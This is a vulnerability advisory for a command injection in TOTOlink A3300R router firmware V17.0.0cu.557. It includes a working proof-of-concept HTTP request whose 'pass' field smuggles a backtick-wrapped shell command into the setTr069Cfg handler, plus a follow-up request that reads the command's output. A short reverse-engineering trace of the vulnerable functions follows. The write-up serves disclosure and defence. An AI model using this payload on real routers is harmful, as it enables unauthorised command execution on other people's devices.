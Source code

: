 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](D:\typora 图片\image-20240109124617070.png)

## Vulnerability Description

When deal with  `setTr069Cfg` request,`pass` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=F30C610BF2E2EC8B HTTP/1.1
Host: itotolink.net
Content-Length: 303
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/tr069_cfg.html?token=F30C610BF2E2EC8B
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"addEffect":"0","enable":"1","url":"192.168.123.234","user":"123","pass":"123`ls>/web/678.txt`","informEnable":"0","interval":"","stunEnable":"1","stunServerAddr":"192.168.123.234","stunPort":"4343","stunMaxAlive":"3600","stunMinAlive":"30","stun_user":"123","stun_pass":"123","topicurl":"setTr069Cfg"}
```

injection the command "ls>/web/678.txt"

![image-20240109131637580](D:\typora 图片\image-20240109131637580.png)

check the result.

```
GET /678.txt HTTP/1.1
Host: itotolink.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://itotolink.net/advance/tr069_cfg.html?token=F30C610BF2E2EC8B
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
```

![image-20240109133424560](D:\typora 图片\image-20240109133424560.png)

## Analysis

sub_4100F0 will handle the `setTr069Cfg` request. sub_4100F0 get `pass` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240109133328195](D:\typora 图片\image-20240109133328195.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](D:\typora 图片\image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](D:\typora 图片\image-20240109131330610.png)